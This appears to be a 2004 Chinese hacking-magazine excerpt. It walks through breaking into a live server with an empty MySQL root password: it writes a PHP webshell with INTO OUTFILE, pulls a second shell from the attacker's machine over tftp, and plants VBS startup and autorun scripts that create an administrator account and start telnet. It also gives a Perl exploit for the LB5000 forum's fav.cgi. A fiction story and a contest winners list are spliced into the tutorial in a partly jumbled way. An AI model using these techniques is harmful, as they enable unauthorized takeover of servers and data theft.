最近好像很流行 SQL 攻击，SQL Injection 的教程有如雨后春笋，不过这里我不谈 SQL-SERVER，来谈谈 MYSQL 吧。SQL-SERVER 的空口令管理员往往都很郁闷，但 MYSQL 就不那么敏感了，因为很多管理员认为 MYSQL 没有 SQL-SERVER 那样的扩展存储，所以很多网站都疏于防范，这就给了我们的机会。MYSQL＋PHP 常常被称为完美组合，许多论坛也是这个结构，下面我就是针对 IIS＋PHP＋MYSQL 来讨论的，接着往下看吧！

SQL（结构化查询语言）是世界上最流行和标准化的数据库语言，它使得存储、更新和存取信息更容易。例如，你能用 SQL 语言为一个网站检索产品信息及存储顾客信息，同时 MySQL 也是足够快速和灵活以允许你存储记录文件和图像。

MySQL 是一个真正的多用户、多线程 SQL 数据库服务器。它是以一个客户机/服务器结构的实现，它由一个服务器守护程序 mysqld 和很多不同的客户程序和库组成。MySQL 主要目标是快速、健壮和易用。MySQL 建立的基础是业已用于高要求的生产环境多年的一套实用例程。尽管 MySQL 仍在开发中，但它已经提供一个丰富和极其有用的功能集。

PHP 是一种服务器端解释的脚本语言。如果你接触过 ASP 的话，那么您对于在 HTML 页面中嵌入代码应该是比较熟悉了，PHP 代码在服务器一端被解释转换，变成普通的 HTML 页面内容，送给浏览器一端。这种模式使得我们可以用它来完成相当复杂的功能。

### PHP/MySQL 简介

SQL（结构化查询语言）是世界上最流行和标准化的数据库语言，它使得存储、更新和存取信息更容易。

机（也可以用扫描器扫开放 3306、445 端口的主机，因为 MYSQL 默认端口为 3306，而且多半是 NT），输入对方 IP，配置好字典后就可以开始破解了，不过缺点就是速度有点慢，每分钟 60 个左右，而且 CPU 占有率非常高，猜不猜得出来就看你的运气了！

## 如何获得 MYSQL 弱口令的主机

相信这是读者们最关心的事情，其实只要利用两个工具 HScan v1.20 和 MysqlCheck 就可以轻松搞定。

HScan v1.20 运行在 Windows NT/2000/XP 下，其采用多线程方式对指定 IP 段或主机列表，进行漏洞、弱口令账号、匿名用户检测的工具，扫描项目包括 name、port、ftp、ssh、telnet、smtp、finger、iis、cgi、pop、rpc、ipc、imap、mssql、mysql、cisco、plugin 等。它可以大面积扫出有 MYSQL 弱口令的主机，我曾经随便扫描了一个 C 类网段，竟然有为数不少的弱口令主机，真是令人毛骨悚然。其扫描格式为：

```text
hscan -h 192.168.0.1 192.168.0.254 -ping
-mysql
```

-ping 就是扫描前先 PING，不过现在 ISP 供应商大多都封了 PING，所以一般不推荐加上这个参数。结果如图1所示。



图1

上面即发现了 ROOT 密码为空的机器，不过，如果没猜出弱口令也没有关系，我们还可以选择暴力破解，这就要用到 MysqlCheck 了，首先找到 MYSQL 主机。

## 得到弱口令之后的提升权限

这里，我们先介绍两个工具。

- 1. 牛族 SuperMysql 连接器 V1.7
- （1）可以无需安装 MYSQL 数据库，用 SuperMysql 连接器可以连接远程 MYSQL 数据库。
- （2）远程数据库表直接显示在程序的显示框中，无需手工输入指令。
- （3）程序绑定了两个 MYSQL 指令。修改了两个绑定功能：
- a）远程更改密码时可以自己定义密码。
- b）可以自定义创建的远程账号和密码。
- 2. MYSQL 自带连接器

虽然是命令行的，但是很稳定哦。

上面所说的两个工具都很容易上手，首先来讲讲利用“牛族 SuperMysql 连接器 V1.7”来得到 SHELL 吧。下面总结一下网上流行的思路：

- （1）通过漏洞或直觉猜解到 Web 的物理路径，然后写入 ASP 或 PHP 的 SHELL，接着提升权限。
- （2）在每个盘符的根目录下写入 autorun.inf 与一个能建立用户的 VBS 脚本。
- （3）通过利用 Folder.htt、desktop.ini 让管理员执行任意命令。
- （4）往启动组内写入建立用户的 VBS 脚本。

这样大家就应该有个底了吧，现在来看实际操作。我首先通过 HScan v1.20 得到一所 XX 信息港的 MYSQL 密码为空，接着我启动了牛族 SuperMysql 连接器 V1.7 连了上去，如图2所示。

接着，我为了得到物理路径，试着在一个 PHP 下载软件系统，提交

```text
http://xxx.xxx.xxx.xxxx.xx/soft/show.php?id=74381
```

返回如图3所示的提示。

图 2

图 3

我很幸运，轻松地得到了 Web 的物理地址，虽然没有盘符，但是就那么几个盘，很容易猜的。然后，我在“牛放 SuperMysql 连接器 V1.7”的最上面的空白处输入：

```sql
use mysql;
```

点“发送命令”，显示“命令 use mysql，发送成功！”。攻击命令是进入名为 mysql 的数据库，然后：

```sql
create table shuangfeng(cmd TEXT)
```

选择在名为 mysql 的库中建一个名叫 shuangfeng 的表，这个表只有一个字段名叫 cmd，数据类型为 TEXT，然后发送命令：

```sql
insert into shuangfeng values("<?system($c);?>")
```

这就是在 shuangfeng 的表里写入 `<?system($c);?>`，其实这就是 PHPSHELL 的源代码，简单吧！PHP 的功能可是很强大的。然后输入：

```sql
select * from tmp into outfile "c:\\www\\htdocs\\soft\\shuangfeng.php"
```

返回“命令发送失败”。继续提交：

```sql
select * from shuangfeng into outfile "d:\\www\\htdocs\\soft\\shuangfeng.php"
```

返回“发送成功”。然后提交：

```sql
drop table shuangfeng
```

上面的命令就是把 shuangfeng 表里的数据导出到 `d:\www\htdocs\soft`，存为 `shuangfeng.php`，接着删除 shuangfeng 表。

然后我就访问 URL：`http://xxx.xxx.xxx.xxx/soft/shuangfeng.php?c=dir c:`，结果如图 4 所示。

图 4

返回了对方 C 盘里的文件，但是这个 PHPSHELL 用起来很麻烦，也很难看，所以我再次传了一个 PHPSHELL 上去：

```text
http://xxx.xxx.xxx.xxx/soft/shuangfeng.php?c=tftp -i myip get phpshell
```

上传完毕后，我再访问 URL：`http://xxx.xxx.xxx.xxx/soft/phpshell.php`，返回如图 5 所示。

图 5

这样的 SHELL 就好多了，然后就是提升权限了。先看看可否建立目录：

```bat
md c:\"Program Files"\shuangfeng
```

结果提示拒绝访问，看来 C 盘是有权限的，接着：

```bat
md D:\shuangfeng
```

返回“命令成功完成”。

看来 D 盘是没有权限限制的，然后看看开了什么服务吧，输入“net start”，我们将会看到该计算机中已经运行的服务。通过分析，我们得出两个有用的服务：MySQL、Serv-U FTP Server。

接下来的思路就很明确了：找到 MySQL 或 Serv-U 的存放地点，然后把木马上传到那个目录，把原启动程序更名，再把木马更改成原启动程序的名字。因为 C 盘是 NTFS 的，所有放在 Program Files、WINNT 等等之类的目录下的话都没有权限更改。仔细看了一下，原来 MySQL 和 Serv-U 都放在 Program Files 下，看来是没希望了，不过我们还可以往启动组内写入建立用户的 VBS 脚本，继续依次提交命令：

```sql
use test;
create table 2(cmd TEXT)
insert into 2 values ('dim wsh')
```

在名称为 2 的表里写入 VBS 代码，然后：

```sql
select * from tmp into outfile 'C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\1.vbs'
drop table tmp
```

这里用来将表导出到 `C:\Documents and Settings\All Users\开始\菜单\程序\启动\1.vbs` 文件中。注意，所有的 `'` 要用 `"` 代替。

上面要写入的 VBS 脚本代码如下：

```vb
Dim wsh
Set wsh=CreateObject("WScript.Shell")
wsh.run "net user shuangfeng www.54hack.org /add",0
wsh.run "net localgroup administrators shuangfeng /add",0
wsh.run "net start telnet",0
```

重启后将会建立一个名为 shuangfeng、密码是 www.54hack.org 的用户了，并且开了 telnet。

如果速度快的话可以利用一下 MS03-043 漏洞，重启后就 TELNET 上去。如果读者们不能像我一样幸运可以看到物理路径的话就只能猜咯。再来讲讲利用 MySQL 自带的连接器入侵吧，首先当然是先连接，在 CMD 里输入：

```bash
mysql -h ip -u用户名 -p密码
```

这样就可以连接到对方的 MySQL。连接上去后就可以像上面一样输入命令，不过这样一行一行输入好像很烦琐，我们可以制作一个 SQL 脚本来一次完成，制作过程如下。

- 1. 首先打开记事本，把要运行的 SQL 语句都打上去，这里我输入：

```sql
use mysql;
create table tmp(cmd TEXT)
insert into 2 values ('dim wsh')
insert into 2 values ('set wsh=CreateObject("WScript.Shell")')
insert into 2 values ('wsh.run "net.exe user aaa aa /add",0')
insert into 2 values ('wsh.run "net localgroup administrators aaa /add",0')
insert into 2 values ('wsh.run "net start telnet",0')
select * from tmp into outfile 'C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\1.vbs'
drop table tmp
```

然后保存为 shuangfeng.sql，再在 CMD 里输入：

```bash
mysql -h ip -u用户名 -p密码 < shuangfeng.sql
```

回车后，就自动输入上面的语句了。如果在每行代码前都添加“insert into tmp values(”，末尾都添加“)”的话，工程量是可想而知的，所以我就用了一个特殊文本编辑器：易优超级字典生成器注册版。它有一个小功能，在“修改字典”里，如图 6 有两个选项，一个是“在每个密码前插入字符串”，另一个是“在每个密码后插入字符串”，不过由于版面的原因，我这就不再告诉怎么用了，大家自己研究一下吧！不过注意所有的 `'` 都要用 `"` 代替。

## 黑客往事

> 蝴蝶：无数的阴差阳错构成了我们的世界，无心的际遇加上有心的窥探，凑成了“黑”的“黑客”也难逃劫数。你，是“黑客”吗？

像我这种不学无术、专学有术的黑客青年，在兄弟哥们间往往会因技术而被敬若神明，但我在接受面试的时候，却只能像个白痴似的被牵着鼻子做一些创造性、协作能力的测试题。好在考我的人似乎发觉我长得比较帅或者才华出众，至少不会对不起我那份薪水，所以把我留了下来……

有的时候，人们可能不会理解一帮人领着高薪在那里闲着没事搞破坏，而我们，恰恰就是这样的人——你可以叫我们职业黑客，或者安全顾问，我们的工作就是整天想方设法地进行攻击、破坏，虽然终极目的是为了完善我们的产品，让人们享受更多的安全，但是最能令我们兴奋的还是攻击的快感。

对专业人士，我们会告诉他不要以为一个系统是多么的完美和安全，在我们的眼里简直是千疮百孔，处处都是可乘之机。但是对待外行，我想说的是，不要以为一个黑客就能在任意地方出入如无人之境，因为每一次入侵和攻击都需要无数次的探索和分析。

那段时间，公司正在写一套防火墙程序，为了堵住老大那张嘴，兄弟们没日没夜地拼命。在这么一个功利性十足的老大手底下做事，兄弟们为了换取数额不菲的报酬，只有昼夜兼程。好在大家“黑客”出身，都习惯于熬夜工作。而我每天夜里工作结束之后，都需要到人多的地方扎一扎堆，不断提醒自己还没有脱离芸芸众生……

我上线了，唯一的目的就是在用完交给中国电信的 ADSL 包月费前找个能让我忘却贫穷、饥饿、失意、颓废的姑娘陪我聊天，这个时候我根本不会想那姑娘长得究竟是特级伤残还是极品美术，因为我从小就有种悲哀的经验，虽然那只是我初中二年级的时候隔着两条街而且因为见面的时候阳光过于灿烂而照射得枯萎的笔友。

我用毫无规则的代码在公共聊天室里套词，我用热情洋溢的问候迎接每个新来的女 ID。我用自己制作的小程序把聊天室的表情刷了一屏又一屏，可就是没人来理我，甚至都没人来骂我一句。我极其郁闷，我说我是一个黑客，就没人理我吗？

于是一个叫“钢琴上的猫”的女 ID 用悄悄话 IM 了我：“你会黑 QQ 号码吗？”我一愣，但是脑海中的代码化的思维的条件反射马上跟了一句“我不会”，对方很是不屑：“切，QQ 号码都不会黑，还叫什么黑客？”

这个时候我才明白，真正的黑客的基本功不是学好数据结构，也不是苦练编程，而且学习如何去黑 QQ 号码。我为这个发现而惭愧不已，而且这只猫也在以后一段时间内始终摆出一副戳穿了小孩子的把戏的高傲而宽容的姿态。直到有一天我无法容忍她的 BS，用半个小时将她电脑中的照片发给她，她才惊讶地接受了我是一个不会黑 QQ 但是“确实会点黑客技术”的黑客。

另外想补充的是，看见了她的照片才知道，原来她是美女！

猫咪很难理解我每天对着那堆生硬冷冰冰的代码究竟为什么那么痴迷，其实我何尝不是对她比我还悠久的网络体验到实际水平只是在 QQ 上打字如飞而已感到不可思议！于是我们在一起的日子，是充满斗争的。思想的碰撞，有的时候诞生的是金子般的真理，有的时候诞生的却是硝烟味道十足的攻击。而在我们之间，似乎只有后者。

猫咪似乎也喜欢夜深的时候上线，懒洋洋的句子加上用各种 Unicode 字符堆砌的小表情，挠得心里痒痒的，温馨得很。渐渐地，争斗少了，甜言蜜语多了起来。不知道哪位酸巴拉叽的人说过：“爱情像春天的小溪，温柔地漫过心底。”还真是那么回事！

这一天，我对竞争对手的程序分析了数日后的进展十分自豪，因为我发现了一种方法可以非常容易地骗过对方的防火墙，顺利入侵。于是我早早地上线，等着与猫咪一起分享我的兴奋。不出我所料，这只傻猫果然被我说得云里雾里，敬佩之余非要让我演示。于是我就得意地演示了一番骗过她防火墙的方法，在她满屏的赞赏之词中大大满足了一番自己的虚荣心。

然后猫咪就问我讨教如何避免被人入侵的方法，嘿嘿，其实对手的那套程序已经非常棒了，能碰到我这样的高手的机会实在是不多罢了。我就将我在公司写的那套正在内测的程序发了一套给她，在她的雀跃中，甜蜜下线。

次日，尚未起床，就被公司的电话吵醒。公司的兄弟口水在电话中非常急躁不安，匆匆说了句“独哥，早点来公司，程序出了点问题”就挂了。赶到公司的时候，发现老大正暴跳如雷。原来，夜里公司的服务器被攻击，大量的垃圾数据被持续疯狂注入，使服务器岌岌可危。

其实这是利用了程序中一个十分隐蔽的不完善程序进行的攻击，其实我早就注意到这个缺陷，但征求老大的意见的时候却遭到否决。因为这段程序直接影响了其他很多地方的运行秩序，如果这里进行改写，将大大延迟产品的发布进度。而在老大眼里，这无疑是直接从他的广义上捐献几百万给素不相识的非洲饥民。他当然不干，于是这个隐患被保留了下来。

我立即启用了兄弟们发现缺陷后紧急编写的第二道防火墙，终于才使攻击遁去。

但是令我感到惊奇的是，我们在写程序的时候尚且都有所疏忽，而且程序除了我们内部的人，基本没有外泄，怎么会这么快被人攻讦呢？而且，攻击者巧妙地隐藏了行踪，一看就是会家子。我的脑海迅速闪现了一个人，但同时又迅速地被否定掉——不可能是她！

终于又是夜半时分，早早地来到网上，等待揭穿一个十分诡异的谜底。“钢琴上的猫”来了，还是那个傻乎乎的头像。不过上来的第一句话着实惊得我说不出话来：“谁让你 BS 我们的产品，早上的只是给你一个教训。嘻嘻……”

接着，猫咪终于向其称呼的“天下第一傻”进行了坦白：她正是我们对手公司的高级程序员，而且还是圈内赫赫有名的女黑客，我的行踪其实早就落入她的“猫眼”；以前的对安全一无所知都是在我面前的伪装，让我顺利进入她的电脑也是心甘情愿；此次攻击只是对我 BS 她的作品的略施惩戒……我不禁目瞪口呆！

后来？如果你一定要问后来的话，我只有以一个反问来回答：你想，面对一个技术高超出人无之境、演技逼真丝毫不差明星、娇柔妩媚更是暗送秋波的女黑客，更何况还有爱情和事业的双重诱惑，我还有得选择吗？后来我们分别从自己的公司一起出走，组建了一个新的网络安全公司……

老大说：“这次你放弃了，以后你还会放弃，你永远将不能成功。”我吐了一个暴完美的烟圈告诉他：“我怕我这次留下了，就永远也出不去了。”然后我让自己肥硕的屁股在郁闷的老大的视线中渐去渐远。

走到门后，两个小伙子差点和我撞了个满怀，等到我站定，俩小伙子战战兢兢地问王总在不在，好像一年前的我。我说来应聘的吧？王总在里面呢……

如果要用 autorun.inf 与 VBS 来执行命令的话，就用上面的方法把 autorun.inf 和 VBS 导出到各个盘的根目录吧，autorun.inf 如下：

```ini
[AutoRun]
OPEN=2.vbs
```

VBS 脚本代码就跟 2.vbs 一样，剩下的就是等管理员上钩了。好了，提升权限方面我就讲这么多了，祝大家好运！

**后记：** 兴趣是最好的老师，而对于刚刚接触网络安全的朋友来说，提高兴趣的最为有效的方法也就是实践了。开始简单一点没有关系，只要对自己有信心，相信我们慢慢地就会成长起来。

## 攻防实验室第二轮闯关盘点

从 2003 年 11 月 5 日《黑客防线》攻防实验室第二轮开放以来，得到了广大安全爱好者的高度评价，非常多的朋友积极地参加了我们实验室的活动，都希望能在活动中学到实用的网络安全技术、提升自己的技术水平。从我们的角度来说，我们非常希望看到大家的进步，所以我们尽量为每个去实验室学习的朋友提供帮助，构建接近真实的实验平台，虚拟真实的入侵环境……从这四个月的情况看，参加活动的朋友不管是哪个技术层次：新手也好、高手也罢，都在实验室中找到了自己喜欢的东西，都获得了技术的提升和实际的锻炼机会，希望大家继续支持我们的活动，共同发展！下面是第二轮实验室的一些情况总结，让我们一起做得更好！

## 过关流程

前七关我们设置的是网页关，体现一些很常见的网页加密技巧和方法，主要是想给新手朋友们一个学习、锻炼的机会，同时也给没有尝试过这方面安全技术的朋友一次体验的机会。总的来讲，前七关是很简单的，熟悉的朋友大概 30 分钟就能完全突破前七关，获得我们的 2002 年精华本奖品！具体名单已在前几期《黑客防线》上刊登，请参加活动的朋友去查询，我们将在 1 月 15 号前发出奖品，请大家查收！

第八关是脚本关，我们使用的是 LB5000XP 4.01，这是一个 CGI 程序，Perl 环境支持。我们在服务器的 E 盘上建立了一个 WEB 目录，将前七关的页面放在里面，主要目的是为了防止大家在测试论坛的时候将前七关的程序也破坏掉，然后再将 E 盘的权限设置成 guest 只能读取而不能改动，这样我们就保证了前七关的通畅。而 D 盘是 FAT32 的文件格式，我们将 CGI 论坛放在 `wwwroot\hacker\` 下，并且没有设置任何权限，但是我们设置了 C 盘的权限，只允许 administrator 访问！大体来说设置情况就是这样，我们的要求是找到论坛的漏洞，然后通过脚本漏洞再提升权限成为系统管理员，拿到桌面上的第九关程序，这样就算突破了我们的第八关。

从实际的情况看，脚本漏洞由于在今年非常火，我们杂志上也及时地开辟了脚本漏洞的攻防对立版面，研究的朋友很多，所以 LB5000XP 4.01 在当天就被攻破！过关的朋友成立了 9 个 QQ 群讨论冲关的办法，而黑防论坛更是人气鼎盛，日发帖量超出我们平时的两倍多，同时在线人数一度接近 1000 人！大家都感到兴奋，为发现了新的论坛漏洞，也为实际的合法攻击！但是，郁闷接踵而至：第八关并没有大家想象中的那样简单，我们还有系统权限需要突破，大堆的朋友被堵在第八关！

由于我们设置的时候将系统打上了 SP4 补丁，而且 Update 了一次，所以以往的漏洞是无法提升本地权限的，这时候出现了非常有趣的现象：我们服务器上的 D 盘里，无数个 CGI 的后门静静地躺在那里，访问 IP 也是不断增加，可惜就是没有出现突破的！大家开始冷静下来，思考过关的方法。正好这时候接连暴出了 Windows 系统的一系列漏洞，于是各种漏洞攻击的工具开始往服务器上放，我们本来 D 盘 3 个 G 的空间，后来几乎放满了！脚本小子每天就拿个移动硬盘上去找好东西！你还别说，真找到几个非常管用的！

第九关是我们的破解关，程序由我们的 socket 编写。由于第一次涉及到具体的程序破解，所以大体思路给大家说一下：程序运行后，会判断输入的用户名和密码是否正确，如果错误，返回：`url:127.0.0.1`，如果正确，同样返回这个值！这也是很多朋友非常郁闷的地方！他们甚至来信说我们程序编写错误！哈哈，设计就是这样的——第九关需要动态跟踪才能发现包含在参数中的 IP 地址！

接下来郁闷的是我们：原本预计第九关的程序是需要一定的破解功底才能突破的，但是我们忽略了一种最简单的情况。一天晚上和 icefire 聊天的时候说起这个，这个小子一句话就把我打晕了：考虑跳转没有？天啊！我们忘了这个了！所以，直接带来的后果是：一个 jn、jnc 的改变就能直接暴露出我们第 10 关的 IP 地址！

## 获奖情况

2003 年 12 期和 2004 年 1 期杂志我们列出了前七关过关的朋友名单，奖品已经在 1 月 15 号前发出，具体名单请看我们的杂志，他们是我们的四等奖获得者！连续通过第 2 关至第 7 关，100 名，奖励《黑客防线》2002 年精华本一本，价值 35.00 元！

下面公布已经确定资格的突破第八、九关的朋友，非常欢迎大家参与我们的活动！三等奖：通过第 8 关，50 名，奖励《黑客防线》2002 年精华本一本，价值 35.00 元；免费赠阅《黑客防线》半年杂志，价值 60 元。

| 姓名 | 单位/地区 |
|---|---|
| 燕海涛 | 武汉工业学院 |
| 赵海峰 | 山西省青年管理干部学院 |
| 李琼 | 吉林大学远程学院 |
| 王少军 | 河南省济源市 |
| 张毅 | 上海市万航渡路 |
| 郝蔷 | 湖南省衡阳市 |
| 李凤文 | 东北师范大学 |
| 李艳 | 河南省焦作市 |
| 姚永锋 | 四川师范大学 |
| 刘先勇 | 武汉工业学院 |
| 苏荣超 | 湖南省长沙市 |

二等奖：通过第 9 关，30 名，奖励《黑客防线》2002 年精华本一本，价值 35 元；免费赠阅《黑客防线》半年杂志，价值 60 元；奖励《东方卫士 2003》正版软件一套！其中特别奖颁发给李大华读者，1 位，该荣誉属于第一个率先通过前 9 关的朋友，奖励罗技无线手键盘鼠标套装一套，价值 780 元。

| 姓名 | 单位/地区 |
|---|---|
| 李大华 | 北京市海淀区 |
| 张博 | 陕西省西安市 |
| 金斌 | 内蒙古乌兰浩特 |
| 丁在蕾 | 甘肃省高台县 |
| 刘佳 | 哈尔滨工业大学 |
| 杨凯 | 山东信息职业技术学院 |
| 沈秋锋 | 上海市奉贤区 |
| 程冲 | 河南郑州 |
| 陈亮 | 广东省深圳市 |
| 高文瑜 | 山西省长治市 |
| 张长弘 | 云南省昆明市 |
| 彭硕 | 辽宁省沈阳市 |
| 杨礼斌 | 山东省临沂市 |
| 陈凯曦 | 上海市打浦路 |
| 李继辉 | 河南省郑州工程学院 |
| 李永召 | 河南省漯河市 |
| 刘晋 | 西安思源学院 |
| 丘业 | 广西省南宁市 |

感谢以上朋友参与我们的活动，以上读者获赠的《黑客防线》杂志将从 2004 年第 2 期开始发送，其他奖品在 1 月份寄出，请大家查收！

## 实验室研究成果——最新 LB 漏洞集锦

实验室自开放以来，就汇聚了五湖四海对安全技术感兴趣的朋友，大家一起研究漏洞，效果非常显著，很多新的漏洞被发现并及时地公布出来。比如本轮第 8 关的脚本被大家先后发现了大大小小 10 多个漏洞，下面我们选择了其中一个比较有代表性的漏洞发现与过关方法给大家介绍一下；同时，第 9 关的破解程序上面简单地说了一句：jn/jnc 的问下面是一篇最新发现的 LB 脚本漏洞——LB5000 fav 漏洞利用（wjeep），通过这个漏洞，我们可以直接拿到服务器的 webshell，非常方便！

## LB5000 fav 漏洞的利用

文／wjeep

随着黑防的第二轮开始，我对 LB5000XP 4.01 进行了一定的研究。以前黑防是开启了 pl 支持的，后来关闭了，看到好多网友还是用该漏洞试着进去，就写了这篇文章，希望对他们有点帮助。这个漏洞是针对 fav.cgi 的，对建立在 IIS 上的 LB5000 论坛有效（对最新的 XP 4.05 也有效），在此对 pskey 和 Envymask 表示感谢，该漏洞的发现和利用有不少地方参考了他们的大作。

## 漏洞分析

现在来看看 fav.cgi 的漏洞所在——fav.cgi 是针对个人收藏使用的，在 fav.cgi 的 sub add 下有这么一段代码：

```perl
197    push(@catelist,$newcate,"0"); # 在这里加入了“0”
198    $catelistno=@catelist;
199    &error("加入个人收藏，最多只能有10个目录！") if($catelistno > 10);
200    $catelist=join("\t",@catelist); # 每个收藏夹里用空格分开
201    $selectcate=$#catelist;
202    } else {
203    $catelist=join("\t",@catelist);
204    $incate=$catelist[$selectcate];
205    $incate=~s/loc\$//;
206    }
207    open(FAV, "> $file");
208    print FAV "$catelist\t$favdescript\n"; # $favdescript 收藏夹的描述也可以实现代码注入。
209    print FAV "$intopic\t$inforum\t$normal\t$incate\t$currenttime\t\n";
```

fav.cgi 的 sub del 下有这么一段代码：

```perl
562 if ($checked eq "yes") {
    $file=(-e "${lbdir}memfav/close/$infilemembername.cgi") ? "${lbdir}memfav/close/$infilemembername.cgi" : "${lbdir}memfav/open/$infilemembername.cgi";
    if (-e $file) {
        open(FAV, $file);
        @favtopic = <FAV>;
        close(FAV);
        chomp @favtopic;
569     $catelist=shift(@favtopic);
        chomp $catelist;
        open(FAV, ">$file");
572     print FAV "$catelist\n";
        foreach $line (@favtopic) {
            chomp $line;
            ($topic,$forum,$status,$cate,$ftime)=split(/\t/,$line);
            my $rr = &readthread($forum,$topic);
            next if($rr eq "");
        }
    }
}

（更多的代码请参见光盘 sub.cgi）
```

这段 sub del 的主要意思是留下 `${lbdir}memfav/open/$infilemembername.cgi` 里第一行里的东西 `$catelist=shift(@favtopic)`，即 sub add 里的 `$catelist\t$favdescript\n`（就是目录夹名和描述），其余的东西如果与要求的相同就去掉了。

可以这样说，当我以论坛 ID wjeep 登录将某个帖子加入收藏并加个目录 test 的话，然后再把收藏的帖子去了，在 `${lbdir}memfav/open/wjeep.cgi` 里就会留下一句“test 0”。利用这一点，我们就可以构造 webshell 了。下面来看看 $catelist 的过滤情况。

```perl
48
for('forum','topic','membername','password',
'action','checked','member','mainopen',
'selectcate','newcate','selecttopic') {
49    next unless defined $_;
50    next if $_ eq 'SEND_MAIL';
51    $tp = $query->param($_);
52    $tp = &cleaninput("$tp");
53    ${$_} = $tp;
54 }
```

&cleaninput 里的过滤情况：

```perl
sub cleaninput {
    my ($self, $text) = @_self_or_default(@_);
    # my $text = shift;
    study($text);
    $text =~ s/ / /g;
    $text =~ s/\@ARGV/\&#64\^ARGV/isg;
    $text =~ s/\^/\&#59\^/isg;
    $text =~ s/\&/\&amp;/g;
    $text =~ s/\&amp\.\#/\&\#/isg;
    $text =~ s/\&amp\.(\d{1,6})/\&#59\/&$1/isg;
    $text =~ s/\&\#(0-9){1,6}/\&#59\/&$1/isg;
    $text =~ s/"/\&quot;/g;
    $text =~ s/ /\&nbsp;/g;
    $text =~ s/</\&lt;/g;
    $text =~ s/>/\&gt;/g;
    $text =~ s/\n\f\e\0\^\t//isg;
    $text =~ s/\//g;
    $text =~ s/\r\n/<p>/g;
    $text =~ s/\n/<br>/g;
    $text =~ s/<script>/\&lt;script\&gt;/ig;
    $text =~ s/document\.cookie/documents\&#46;cookie/isg;
    return $text;
}
```

上面的代码过滤掉了“@、"、<、>、.、&”等一些比较有用的符号，同时在 `push(@catelist, $newcate."0")`，这里加入了“0”，我们可以用 and 和 or 语句来构造。

## 漏洞代码的利用

下面是我写的 pl 代码，不足的地方请大家多多见谅：

```perl
#!/usr/bin/perl
#Codz By wjeep(wjeep_1@hotmail.com)
#Exploit of LB's fav.cgi
$|=1;
use Socket;
print "==============================\n";
print "Codz By wjeep(wjeep_1@hotmail.com)2003/11/11\n";
print "==============================\n";
#--------------------------------#
$host="219.237.81.46";      # 服务器的地址
$port=80;                   # 服务器的端口
$webpath="/hacker/bbs/cgi-bin";  # 相对 web 路径，后面无需加“/”
$username="wjeep";          # 论坛的用户名
$password="hsgrey";         # 论坛的密码
@req=qw( $"%3d$ENV{QUERY_STRING} or %20
%20and%20(($/%2520/%20/ig)or%20
%20and%20(($out%3d'$_')or%20
%20and%20(print%20$out)or%20' );
for ($i=0;$i<@req;$i++){
    #print $req[$i];
    $newcate=$req[$i];
    add($newcate);
}
del();
print "\n\n 恭喜你好运! \n\n";
print "你能在 $host$webpath/memfav/open/$username.cgi 获得一个 shell!";
sub add

（完整代码请见光盘）
```

通过这个 Webshell，你就可以上传文件、改名，以及获取服务器资料等，还能以此为跳板取得服务器资料！

当然，其他具有代表性的漏洞利用与过关方法还有很多，我们将在以后的杂志中逐步给大家介绍，很值得期待哦！当大家拿到本期杂志的时候，已经是春节后的某一天了，不能够给大家提前拜年，让我们倍感遗憾。不过，在这里还是要送上我们黑防编辑部所有同仁对热心支持我们的读者一声真诚的祝福：我们给大家拜个晚年了，祝所有黑防的读者猴年吉祥，学业有成，合家欢乐，万事吉祥！

国内安全界在近两年真的发展起来了，原来不成熟的体系也渐渐走向完善，漏洞研究、安全防护也更成体系。对网络安全感兴趣的朋友来说，觉得非常神秘的是中国做网络安全研究的专业安全人士究竟研究内容都包含哪些？自己如何才能成为这样神秘的安全人士？……一切的迷雾都将慢慢散开，以后我们也将逐步请他们给大家指引明路！

Icefire，不知不觉，2003 年已经过去，2004 年已经悄然来临。小编在此感谢各位读者、作者一直在背后给予的最大支持，小编在这里给各位拜个晚年了，祝各位年年有余，节节高升！

